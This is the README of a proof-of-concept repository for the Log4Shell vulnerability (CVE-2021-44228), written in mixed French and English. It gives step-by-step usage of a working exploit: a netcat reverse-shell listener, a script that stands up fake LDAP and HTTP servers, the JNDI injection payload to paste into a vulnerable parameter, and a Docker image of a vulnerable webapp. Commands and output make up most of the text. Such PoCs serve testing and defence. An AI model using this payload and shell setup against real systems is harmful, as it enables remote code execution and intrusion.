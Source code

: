 # log4j-shell-poc
A Proof-Of-Concept pour la récente vulnérabilité trouvée CVE-2021-44228 vulnerability. <br><br>
Log4j, a java logging library largement utilisée en elasticsearch, minecraft et autres.


Proof-of-concept (POC)
----------------------

Pour une  PoC, le fichier poc.py est pour. 


#### Prérequis:
```bash
pip install -r requirements.txt
```
#### Usage:


* Lancer un netcat listener pour accepter la connexion reverse shell <br>
```py
nc -lvnp 9001
```
* Launch the exploit.<br>
**Note:** Extraire java archive dans le même dossier sous le nom: `jdk1.8.0_20`.
```py
$ python3 poc.py --userip localhost --webport 8000 --lport 9001

[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc

[+] Exploit java class created success
[+] Setting up fake LDAP server

[+] Send me: ${jndi:ldap://localhost:1389/a}

Listening on 0.0.0.0:1389
```

Ce script va configurer un HTTP server et LDAP server pour vous, et il va créer un payload que vous pouvez  coller sur le paramètre vulnerable . Afprès cela, si tout marche bien, vous allez avoir un shell sur lport.

<br>


Notre vulnerable application
--------------------------

We have added a Dockerfile with the vulnerable webapp. You can use this by following the steps below:
```c
1: docker build -t log4j-shell-poc .
2: docker run --network host log4j-shell-poc
```
Une fois lancer, vous pouvez accéder par: localhost:8080


Java version.
--------------------------------------

Java 8: `java-8u20`.

[https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html](https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html).<br>


Once you have downloaded and extracted the archive, you can find `java` and a few related binaries in `jdk1.8.0_20/bin`.<br>


```
❯ tar -xf jdk-8u20-linux-x64.tar.gz

❯ ./jdk1.8.0_20/bin/java -version
java version "1.8.0_20"
Java(TM) SE Runtime Environment (build 1.8.0_20-b26)
Java HotSpot(TM) 64-Bit Server VM (build 25.20-b23, mixed mode)
```


